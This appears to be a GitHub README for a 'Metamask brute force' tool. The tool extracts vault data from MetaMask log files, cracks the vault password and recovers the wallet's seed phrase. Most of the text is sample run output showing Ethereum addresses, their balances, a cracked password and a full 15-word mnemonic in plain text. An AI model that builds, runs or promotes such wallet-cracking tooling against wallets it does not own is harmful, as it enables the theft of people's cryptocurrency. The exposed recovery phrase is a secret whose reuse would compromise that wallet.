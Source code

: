 # Metamask brute force
This program extracts vault data from a MetaMask log file , performs brute-force on it and extracts the mnemonic.

Starting processing in directory: C:\metamaskbrut

Processing file: C:\metamaskbrut\000233.log
Vault extracted and saved to file: C:\metamaskbrut\000233.log.hash
Ethereum address found: 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2
Balance for address 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2: 0.03913388434350565 ETH


Processing file: C:\metamaskbrut\00023664.log
Vault extracted and saved to file: C:\metamaskbrut\00023664.log.hash
Ethereum address found: 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8
Balance for address 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8: 0.00000000000000000 ETH


Processing complete.
Found 2 .hash file(s).

Processing file: .\000233.log.hash
Valid vaults loaded: 1

File processed. Passwords tried: 9  |  Vaults decrypted: 0  |  Speed: 0.00 p/s  |  Time elapsed: 0 sec

Processing file: .\00023664.log.hash
Valid vaults loaded: 1

Decrypted Vault: '{"data":"VtfsMLY/5cCEBtd+5LxrKUFLVJAXnTN1t4O+3W3RgU6Xce6Vh0C2Jst...'
Vault Password: 'qwerty12'
mnemonic: youth draw mother patient machine maze young mechanic silver pulse discover phone swear have nest

File processed. Passwords tried: 8  |  Vaults decrypted: 1  |  Speed: 1.14 p/s  |  Time elapsed: 7 sec

Finished.

